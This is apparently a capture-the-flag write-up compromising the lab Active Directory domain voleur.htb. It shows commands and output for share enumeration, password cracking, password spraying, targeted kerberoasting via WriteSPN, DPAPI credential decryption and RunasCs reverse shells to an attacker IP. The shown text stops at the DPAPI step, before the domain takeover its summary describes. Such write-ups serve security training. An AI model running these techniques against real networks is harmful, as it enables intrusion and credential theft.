

# SUMMARY:

This penetration test successfully compromised the domain voleur.htb and achieved full domain privilege escalation. The engagement began with initial reconnaissance that identified the target as a Domain Controller hosting a mixed Windows and Linux environment. Through the analysis of a decrypted Excel file found on an accessible SMB share, credentials for the svc_ldap service account were discovered. This access was leveraged to perform a targeted Kerberoasting attack against the svc_winrm account by exploiting WriteSPN privileges, leading to the compromise of that service account.

Leveraging the restored account of a former employee, Todd Wolfe, and his archived DPAPI credentials, the credentials for the user Jeremy.Combs were decrypted. This access revealed an SSH private key that granted access to a backup service account. From this position, critical AD database files were exfiltrated, enabling the extraction of the domain's NTLM password hashes. The final compromise was achieved by performing a Pass-the-Hash attack using the Administrator's hash, resulting in the retrieval of both the user and root flags and demonstrating a complete breach of the domain security

# NMAP

The command sudo nmap -sC -sV 10.129.232.130 --open performs a network scan with elevated privileges. The -sC flag executes the default set of Nmap scripts for service discovery and vulnerability detection, while the -sV flag probes open ports to determine the service name and version information. The --open switch filters the output to display only ports that are in an open state, providing a focused view of actively available services on the target host at IP address 10.129.232.130. This technique is used to enumerate potential entry points and gather intelligence on the target's software versions for further analysis.

```bash
 sudo nmap -sC -sV  10.129.232.130  --open 
```

The Nmap scan results indicate the target is a Domain Controller for the domain voleur.htb. Key findings include the presence of Active Directory services on ports 88, 389, and 3268, which are Kerberos and LDAP respectively. The SMB service on port 445 has message signing enabled and required. Notably, an OpenSSH service on port 2222 suggests a potential Linux-based system is also present, creating a mixed Windows and Linux environment as confirmed by the OS detection

```bash
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-15 01:14:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2222/tcp open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 7h59m58s
| smb2-time: 
|   date: 2025-11-15T01:14:34
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required


```

The NetExec scan against the SMB service on 10.129.232.130 reveals that the host is not part of a domain as it identifies itself by its IP address. A significant security control is in place, as SMB signing is enabled and required, which helps prevent relay attacks. Furthermore, the use of SMBv1 has been disabled, mitigating a set of known vulnerabilities, and NTLM authentication is also not supported by the server.

```bash
nxc smb 10.129.232.130                     

SMB         10.129.232.130  445    10.129.232.130   [*]  x64 (name:10.129.232.130) (domain:10.129.232.130) (signing:True) (SMBv1:False) (NTLM:False)
                          
```

The command sudo cat /etc/hosts was executed to inspect the local DNS resolution table. The output confirms that the IP address 10.129.232.130 is correctly mapped to the hostnames DC.voleur.htb, voleur.htb, and DC. This configuration ensures proper name resolution for the target domain and its Domain Controller during the penetration test, allowing subsequent attacks to use fully qualified domain names instead of IP addresses.

```bash
sudo cat /etc/hosts  
10.129.232.130   DC.voleur.htb voleur.htb DC
```

The command nxc smb DC.voleur.htb --generate-krb5-file voleur.krb -d voleur.htb is used to generate a Kerberos configuration file. This action creates a krb5.conf file named voleur.krb for the domain voleur.htb, targeting its Domain Controller DC.voleur.htb. This configuration file is essential for subsequent Kerberos-based authentication attempts, as it allows tools to interact correctly with the Active Directory's Kerberos service by defining the realm and KDC information.

```bash
nxc smb DC.voleur.htb --generate-krb5-file voleur.krb -d voleur.htb
```

The command sudo ntpdate DC.voleur.htb is used to synchronize the local system's time with the time on the Domain Controller DC.voleur.htb. This is a critical preparatory step for any Kerberos-based attacks, as the Kerberos authentication protocol is highly time-sensitive and requires the client and server clocks to be closely synchronized, typically within a five-minute window, to prevent ticket validation failures.

```bash
sudo ntpdate  DC.voleur.htb  
```

The NetExec command successfully authenticated to the SMB service on the Domain Controller using the credentials for user ryan.naylor with Kerberos authentication. The share enumeration revealed multiple accessible network shares, including the default administrative shares ADMIN$ and C$, as well as several non-default shares: Finance, HR, and IT. The user has READ permissions on the IT, IPC$, NETLOGON, and SYSVOL shares

```bash
netexec smb DC.voleur.htb  -u ryan.naylor -p 'HollowOct31Nyt' -k --shares
SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         DC.voleur.htb   445    DC               [*] Enumerated shares
SMB         DC.voleur.htb   445    DC               Share           Permissions     Remark
SMB         DC.voleur.htb   445    DC               -----           -----------     ------
SMB         DC.voleur.htb   445    DC               ADMIN$                          Remote Admin
SMB         DC.voleur.htb   445    DC               C$                              Default share
SMB         DC.voleur.htb   445    DC               Finance                         
SMB         DC.voleur.htb   445    DC               HR                              
SMB         DC.voleur.htb   445    DC               IPC$            READ            Remote IPC
SMB         DC.voleur.htb   445    DC               IT              READ            
SMB         DC.voleur.htb   445    DC               NETLOGON        READ            Logon server share 
SMB         DC.voleur.htb   445    DC               SYSVOL          READ            Logon server share 
                                                              

```

The NetExec command with the spider module was executed on the IT share using the provided credentials. The spidering process recursively listed the contents of the share and discovered a directory named "First-Line Support" containing a file called "Access_Review.xlsx". This file, with a last modification date of 2025-05-29 and a size of 16896 bytes, was identified as a potential source of information for further enumeration.

```bash
nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -d voleur.htb -k --shares --spider IT --regex .


SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         DC.voleur.htb   445    DC               [*] Enumerated shares
SMB         DC.voleur.htb   445    DC               Share           Permissions     Remark
SMB         DC.voleur.htb   445    DC               -----           -----------     ------
SMB         DC.voleur.htb   445    DC               ADMIN$                          Remote Admin
SMB         DC.voleur.htb   445    DC               C$                              Default share
SMB         DC.voleur.htb   445    DC               Finance                         
SMB         DC.voleur.htb   445    DC               HR                              
SMB         DC.voleur.htb   445    DC               IPC$            READ            Remote IPC
SMB         DC.voleur.htb   445    DC               IT              READ            
SMB         DC.voleur.htb   445    DC               NETLOGON        READ            Logon server share 
SMB         DC.voleur.htb   445    DC               SYSVOL          READ            Logon server share 
SMB         DC.voleur.htb   445    DC               [*] Started spidering
SMB         DC.voleur.htb   445    DC               [*] Spidering .
SMB         DC.voleur.htb   445    DC               //DC.voleur.htb/IT/. [dir]
SMB         DC.voleur.htb   445    DC               //DC.voleur.htb/IT/.. [dir]
SMB         DC.voleur.htb   445    DC               //DC.voleur.htb/IT/First-Line Support [dir]
SMB         DC.voleur.htb   445    DC               //DC.voleur.htb/IT/First-Line Support/. [dir]
SMB         DC.voleur.htb   445    DC               //DC.voleur.htb/IT/First-Line Support/.. [dir]
SMB         DC.voleur.htb   445    DC               //DC.voleur.htb/IT/First-Line Support/Access_Review.xlsx [lastm:'2025-05-29 22:23' size:16896]
SMB         DC.voleur.htb   445    DC               [*] Done spidering (Completed in 0.12424373626708984)


```

The NetExec command successfully downloaded the file "Access_Review.xlsx" from the "First-Line Support" directory on the IT share. The file was transferred from the remote SMB server to the local machine and saved as "Access_Review.xlsx" for offline analysis and review.

```bash
nxc smb DC.voleur.htb -u ryan.naylor -p 'HollowOct31Nyt' -d voleur.htb -k --share IT --get-file 'First-Line Support\\Access_Review.xlsx' Access_Review.xlsx


SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
SMB         DC.voleur.htb   445    DC               [*] Copying "First-Line Support\\Access_Review.xlsx" to "Access_Review.xlsx"
SMB         DC.voleur.htb   445    DC               [+] File "First-Line Support\\Access_Review.xlsx" was downloaded to "Access_Review.xlsx"


```

The command office2john Access_Review.xlsx > hash.txt is used to extract the password hash from the encrypted Microsoft Excel file. The tool office2john processes the file and outputs the cryptographic hash, which is then redirected into a file named hash.txt for subsequent password cracking attempts.

```bash
office2john Access_Review.xlsx > hash.txt
```

The John the Ripper password cracking tool was executed against the extracted hash using the rockyou.txt wordlist. The password for the encrypted Excel file "Access_Review.xlsx" was successfully cracked. The recovered password is "football1".

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football1        (Access_Review.xlsx)     
1g 0:00:00:06 DONE (2025-11-14 19:01) 0.1652g/s

```

The msoffcrypto-tool command was used to decrypt the protected Excel file Access_Review.xlsx. The tool successfully utilized the recovered password "football1" to remove the encryption, outputting the unprotected contents to a new file named Access_Review_decrypted.xlsx for analysis.

```bash
msoffcrypto-tool Access_Review.xlsx Access_Review_decrypted.xlsx -p 'football1'
```

The xlsx2csv command was executed to convert the decrypted Excel spreadsheet Access_Review_decrypted.xlsx into a Comma-Separated Values file named output.csv. This conversion transforms the tabular data from a proprietary binary format into a plain text format, facilitating further analysis and data parsing with standard command-line tools or scripts.

```bash
 xlsx2csv Access_Review_decrypted.xlsx  output.csv
```

The contents of the output.csv file have been displayed. The data contains a list of domain users, their job titles, associated permissions, and operational notes. Critically, the file reveals that the user Ryan.Naylor has Kerberos pre-authentication disabled. Furthermore, the file exposes the plaintext credentials for several service accounts, including svc_ldap with password M1XyC9pW7qT5Vn and svc_iis with password N5pXyW1VqM7CZ8. A note for the user Todd.Wolfe indicates his password was reset to NightT1meP1dg3on14 before his account was deleted.

```bash
cat output.csv                  
User,Job Title,Permissions,Notes
Ryan.Naylor,First-Line Support Technician,SMB,Has Kerberos Pre-Auth disabled temporarily to test legacy systems.
Marie.Bryant,First-Line Support Technician,SMB,
Lacey.Miller,Second-Line Support Technician,Remote Management Users,
Todd.Wolfe,Second-Line Support Technician,Remote Management Users,Leaver. Password was reset to NightT1meP1dg3on14 and account deleted.
Jeremy.Combs,Third-Line Support Technician,Remote Management Users.,Has access to Software folder.
Administrator,Administrator,Domain Admin,Not to be used for daily tasks!


Service Accounts,,,
svc_backup, ,Windows Backup,Speak to Jeremy!
svc_ldap,,LDAP Services,P/W - M1XyC9pW7qT5Vn
svc_iis,,IIS Administration,P/W - N5pXyW1VqM7CZ8
svc_winrm,,Remote Management ,Need to ask Lacey as she reset this recently.
                                                      
```

The files users.txt and password.txt have been created, consolidating the usernames and corresponding plaintext passwords extracted from the decrypted spreadsheet. This compilation includes the service accounts svc_ldap and svc_iis with their respective credentials, along with other identified domain users, forming a wordlist for subsequent authentication attempts.

```bash
cat users.txt                             
svc_ldap
svc_iis
svc_winrm
Ryan.Naylor
Marie.Bryant
Lacey.Miller
Todd.Wolfe
Jeremy.Combs
Administrator

cat password.txt                             
M1XyC9pW7qT5Vn
N5pXyW1VqM7CZ8
```

A password spraying attack was conducted using NetExec with Kerberos authentication against the SMB service. The attack successfully validated the credentials for the user svc_ldap with the password M1XyC9pW7qT5Vn. All other user and password combinations failed due to authentication errors, primarily KDC_ERR_PREAUTH_FAILED, indicating incorrect passwords. The error for Todd.Wolfe, KDC_ERR_C_PRINCIPAL_UNKNOWN, confirms this account no longer exists, as noted in the spreadsheet.

```bash
nxc smb DC.voleur.htb -u users.txt -p password.txt -k --continue-on-success

SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\svc_ldap:M1XyC9pW7qT5Vn 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_iis:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_winrm:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Ryan.Naylor:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Marie.Bryant:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Lacey.Miller:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Todd.Wolfe:M1XyC9pW7qT5Vn KDC_ERR_C_PRINCIPAL_UNKNOWN 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Jeremy.Combs:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\Administrator:M1XyC9pW7qT5Vn KDC_ERR_PREAUTH_FAILED 
SMB         DC.voleur.htb   445    DC               [-] CCache Error: invalid principal syntax
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_iis:N5pXyW1VqM7CZ8 KRB_AP_ERR_SKEW 
SMB         DC.voleur.htb   445    DC               [-] voleur.htb\svc_winrm:N5pXyW1VqM7CZ8 KDC_ERR_PREAUTH_FAILED 

```

The bloodhound-python command was executed to collect Active Directory reconnaissance data. Using the credentials for user ryan.naylor, the tool authenticated to the domain voleur.htb and performed a comprehensive collection of all available data points, including users, groups, computers, and trust relationships. The collected data was subsequently packaged into a zip file for ingestion into the BloodHound graphical analysis tool to identify attack paths.

```bash
 bloodhound-python -u 'ryan.naylor' -d 'voleur.htb' -p 'HollowOct31Nyt' -c all --zip
```

The BloodHound analysis reveals a critical attack path. The compromised service account SVC_LDAP@VOLEUR.HTB has the WriteSPN permission over the SECOND-LINE SUPPORT TECHNICIANS group. Furthermore, the RESTORE_USERS group has GenericWrite permissions over the SVC_WINRM account. These privileges can be leveraged for a targeted Kerberos attack, specifically to manipulate Service Principal Names, and to modify the properties of the SVC_WINRM account, potentially enabling further credential compromise.



The bloodyAD tool was used to exploit the WriteSPN privilege. Authenticated as the svc_ldap user, the command successfully modified the servicePrincipalName attribute of the svc_winrm account, setting it to 'http/whatever'. This action is a prerequisite for performing a Kerberos Silver Ticket attack or a targeted Kerberoasting attack against the svc_winrm account.

```bash
 bloodyAD -d voleur.htb -k --host dc.voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn set object svc_winrm servicePrincipalName -v 'http/whatever'

[+] svc_winrm's servicePrincipalName has been updated

```

The NetExec command was executed against the LDAP service on the Domain Controller using the svc_ldap credentials. The kerberoasting module was specifically targeted at the svc_winrm account. The operation successfully retrieved a Kerberos service ticket for the svc_winrm account, which was saved in a file named svc_winrm.hashLDAP for offline password cracking.

```bash
netexec ldap DC.voleur.htb -u svc_ldap -p M1XyC9pW7qT5Vn -k --kerberoasting svc_winrm.hashLDAP 
```

The Kerberos service ticket for the svc_winrm account has been saved to a file named hash.txt. This ticket, which is encrypted with the svc_winrm account's password hash, is now prepared for offline password cracking to recover the plaintext password of the service account.

```bash
echo '$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb\svc_winrm*$32f8bb9df3639c68ef0e318328ba1319$2c98eb070e2e14828ed48170bf612812400d94d6954f3c2f17365e5955e96ce94b3a1f83084bd0680bd09541fcff15fa02841bb461bbba0b60f8121b43a7ccf1bac93e2142aab52347de923d0e9822ceae62a5a6a42dfc539b1d4d76207e36163d80b7c634ab84b0c44f58cb0e55281566e0f05d1ed50bfec9648f22b1dc9b756f9c85e6e2985c861cf1fc2db67347c9fea1d17d2d2a493cbf7b0c39cc4199ecf5f97b1b4dd30a031011e863f86fd0444c602658b6700098266a0f97551941fcf882f006a6e73c95ca9998693eba22910391c9fdcc4a849dd3095d5879494c3aa60e050f570bd2f614645f0c87e8465f9c4e81a6d578f8bc2aef9c7b2b849f233dd1c28545e6c3ab05e4464dfc336bf8036552d69b2e2512b70c88ebab942116f5c07e64af9da81f31f012c0363d7c2f7d8df0b6de85c9e0527001c63aea5c83492adabd91a1a107db9f099b5ade201fe42e5310f005ca87cd3e4ccf302e54c826d6af148f3ddd2503a11acb7307b5b1761c9152906b40410bce5c482a90c13b620933365d7f47d7ca76338d1fdf2d039e39602826fe7da2562d39027908e1dff85e9b9bd1591763d2b1c16fcda14600559c6c6fee96e29bfdf74448a9dc0dae54263578044a45f02593e4d01a75339bd13664277d1570240921eef40b4cfa9adae2c41e7ef7e103d2ae8fec55491ca85b4ab9edfa10ee5b97ae928ba5f32455276f1c13e50aa93397f860c65074074be3696fced990d4ecf3a62e6074e980e9b8a20096c79f1e7221fd968c16ad299442efbcd744c4587aa9be0b25c54548d9e214dee660f07ec7be7d6e551e8c3f33062bff3fb114183d99c2a57e1650598b10bdd9910a363fdf5b807400ed801e58a0032d977ed02a8a64deb406b1e471b0af34632fedb07d7afa53bb15f14cdef777cde3c38115c1124443b8aa03e351d878e0f5b89b4380c8a20220b1e0d89900f09fd4a0bbde22c7961ed233da83af4c21c0552debe78c7bd731745d51b2ac7051a7425f54f78a6eace29116f4b1ba0a1e71fe1f6389593751de5658854a4a344a8de8b80c1ca337ad271bfa086db335015457c5685b8542b16f073417a621f08ab670559aaf5585f3e6e43d50e25bc814b9d6b68ab8da31473c1afc5e46d1d8ff393d6abc1af38a2cdae478df65b41368cb3d639a32a3e853a20b75a42fe01097577e3c367723ed0e303dcad881a3d1044560a10efe9ef159afd1f15fb04c9442f23b4e9bdd8ad287ed091bb2b27da4093eb19ac730496b952cede89d611791b55a80aac9c697bdbdb542c71b8c4d231901b35618fe6c6bec6954b5cd9eb21ccde1490cb53a0d959fd3dfe42cfda7c91ff7ef9a2f7919e39bacd0664034c2a2d0e7c91aca089bbf184bd775f72de9fee13010b84a8fb1475d834631caddde2e46b355ba7ec2fc5710ff659fa141c0ac56185c7754b28998e53a4de7b1485628a99bf1' >hash.txt  
```

The John the Ripper password cracking tool successfully cracked the Kerberos TGS ticket for the svc_winrm account. The recovered plaintext password is "AFireInsidedeOzarctica980219afi".

```bash
john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
AFireInsidedeOzarctica980219afi (?)     
1g 0:00:00:13 DONE (2025-11-14 20:36) 0.07363g/s 844762p/s 844762c/s 844762C/s AGGIES2435..AFIROCKS!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The NetExec command successfully authenticated to the SMB service on the Domain Controller using the newly acquired credentials for the svc_winrm account. This confirms the validity of the cracked password and establishes a successful Kerberos-authenticated session with the compromised service account.

```bash
 netexec smb DC.voleur.htb -u svc_winrm -p AFireInsidedeOzarctica980219afi -k
SMB         DC.voleur.htb   445    DC               [*]  x64 (name:DC) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC.voleur.htb   445    DC               [+] voleur.htb\svc_winrm:AFireInsidedeOzarctica980219afi 
```

The kinit command was used to request a Kerberos Ticket-Granting Ticket for the svc_winrm user from the domain controller. The password "AFireInsidedeOzarctica980219afi" was provided to authenticate and obtain the TGT, which is now cached for subsequent Kerberos-based service access.

```bash
kinit svc_winrm
Password for svc_winrm@VOLEUR.HTB:
```

The klist command confirms that a Kerberos Ticket-Granting Ticket for the principal svc_winrm@VOLEUR.HTB is successfully cached. The TGT is valid from 11/15/2025 05:24:43 until 11/15/2025 15:24:43, with a renewal validity until 11/22/2025 05:24:43. This cached ticket can now be used to request service tickets for other Kerberized services within the domain.

```bash
klist          
Ticket cache: FILE:svc_winrm.ccache
Default principal: svc_winrm@VOLEUR.HTB

Valid starting       Expires              Service principal
11/15/2025 05:24:43  11/15/2025 15:24:43  krbtgt/VOLEUR.HTB@VOLEUR.HTB
        renew until 11/22/2025 05:24:2
```

A remote PowerShell session was established using Evil-WinRM with the cached Kerberos credentials for the svc_winrm account. The session successfully connected to the Domain Controller DC.voleur.htb. The user flag was retrieved from the svc_winrm user's desktop, with the contents being dc7eddfd25209385a458c398689f2de0.

```bash
KRB5CCNAME=svc_winrm.ccache  evil-winrm -i 'DC.voleur.htb' -r voleur.htb  -u 'svc_winrm'

Evil-WinRM* PS C:\Users\svc_winrm\Desktop> cat user.txt
dc7eddfd25209385a458c398689f2de0

```

The Active Directory Recycle Bin feature was queried using the Get-ADOptionalFeature cmdlet. The output confirms the feature is configured and enabled within the domain voleur.htb, with a required forest functional level of Windows2008R2Forest. This feature allows for the restoration of deleted Active Directory objects.

```bash
Get-ADOptionalFeature 'Recycle Bin Feature'


DistinguishedName  : CN=Recycle Bin Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=voleur,DC=htb
EnabledScopes      : {CN=Partitions,CN=Configuration,DC=voleur,DC=htb, CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=voleur,DC=htb}
FeatureGUID        : 766ddcd8-acd0-445e-f3b9-a7f9b6744f2a
FeatureScope       : {ForestOrConfigurationSet}
IsDisableable      : False
Name               : Recycle Bin Feature
ObjectClass        : msDS-OptionalFeature
ObjectGUID         : ba06e572-1681-46f7-84d2-e08b001f5c51
RequiredDomainMode :
RequiredForestMode : Windows2008R2Forest

```

The RunasCs.exe tool was uploaded to the target system and executed. The command was used to run a PowerShell session with the credentials of the svc_ldap user, and a reverse shell connection was established back to the attacker's machine at IP address 10.10.16.42 on port 443.

```bash
upload RunasCs.exe 

.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell -r 10.10.16.42:443
```

A netcat listener was established on port 443 using rlwrap for an improved shell experience. A reverse shell connection was received, and the whoami command confirmed the session is running in the context of the domain user voleur\svc_ldap, indicating a successful privilege context switch.

```bash
rlwrap -cAr nc -lnvp 443 

PS C:\Windows\system32> whoami
whoami
voleur\svc_ldap

```

A query was executed to list deleted Active Directory objects. The results show that the user Todd Wolfe, previously identified as a leaver, exists in the Deleted Objects container. The object's LastKnownParent is the "Second-Line Support Technicians" organizational unit, and its security identifier is S-1-5-21-3927696377-1337352550-2781715495-1110.

```bash
 Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property objectSid,lastKnownParent
 
 
 
 eleted           : True
DistinguishedName : CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb
LastKnownParent   : OU=Second-Line Support Technicians,DC=voleur,DC=htb
Name              : Todd Wolfe
                    DEL:1c6b1deb-c372-4cbb-87b1-15031de169db
ObjectClass       : user
ObjectGUID        : 1c6b1deb-c372-4cbb-87b1-15031de169db
objectSid         : S-1-5-21-3927696377-1337352550-2781715495-1110


```

The Restore-ADObject cmdlet was executed to restore the deleted Active Directory user object for Todd Wolfe using its ObjectGUID. The command successfully recovered the user account from the Active Directory Recycle Bin, making it active again within the domain.

```bash
Restore-ADObject -Identity 1c6b1deb-c372-4cbb-87b1-15031de169db

```

The RunasCs.exe tool was executed with the credentials for the recently restored user todd.wolfe and the password NightT1meP1dg3on14. A PowerShell reverse shell was initiated, establishing a connection back to the listener at IP address 10.10.16.42 on port 443.

```bash
.\RunasCs.exe todd.wolfe NightT1meP1dg3on14 powershell -r 10.10.16.42:443

```

A netcat listener was active on port 443. A reverse shell connection was received, and the whoami command confirmed the session is operating under the security context of the domain user voleur\todd.wolfe, verifying a successful authentication and context switch to the restored account.

```bash
 rlwrap -cAr nc -lnvp 443
 PS C:\Windows\system32> whoami
whoami
voleur\todd.wolfe
```

The net user command was used to query the attributes of the todd.wolfe account. The output confirms the account is active and reveals its group membership, which includes the "Second-Line Technicians" group. A significant finding is that the user cannot change their own password, as indicated by the "User may change password" setting being "No".

```bash
PS C:\Windows\system32> whoami
whoami
voleur\todd.wolfe
PS C:\Windows\system32> cd /
cd /
PS C:\>  net user todd.wolfe
 net user todd.wolfe
User name                    todd.wolfe
Full Name                    Todd Wolfe
Comment                      Second-Line Support Technician
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/29/2025 4:41:13 AM
Password expires             Never
Password changeable          1/30/2025 4:41:13 AM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   11/14/2025 9:43:29 PM

Logon hours allowed          All

Local Group Memberships      
Global Group memberships     *Second-Line Technicia*Domain Users         
The command completed successfully.
```

The smbclient command was used to authenticate to the IT share on the Domain Controller using the credentials for the user todd.wolfe. The connection was established successfully, providing command-line access to the shared folder for further file enumeration and interaction.

```bash
smbclient -U 'voleur.htb/todd.wolfe%NightT1meP1dg3on14' --realm=voleur.htb //dc.voleur.htb/IT
```

Two files were successfully downloaded from the user's archived profile. The first file is a Microsoft Credentials blob named 772275FAD58525253490A9B0039791D3, and the second file is a corresponding DPAPI master key file named 08949382-134f-4c63-b93c-ce52efc0aa88 from the user's Protect directory. These files are used for decrypting stored credentials protected by the Windows Data Protection API.

```bash
get "Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\772275FAD58525253490A9B0039791D3" 772275FAD58525253490A9B0039791D3


get "Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88" 08949382-134f-4c63-b93c-ce52efc0aa88

```

The DPAPI master key file was successfully decrypted using the user's password and security identifier. The decryption process yielded the master key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83. This key can now be used to decrypt the associated credential blob.

```bash
dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
Impacket v0.13.0.dev0+20250528.4535.5b338613 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83


```

The DPAPI credential blob was successfully decrypted using the recovered master key. The decrypted credentials belong to the user jeremy.combs with the password qT3V9pLXyN7W4m. The credential is stored as a domain password type and is associated with the target "Jezzas_Account".

```bash
dpapi.py credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
Impacket v0.13.0.dev0+20250528.4535.5b338613 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
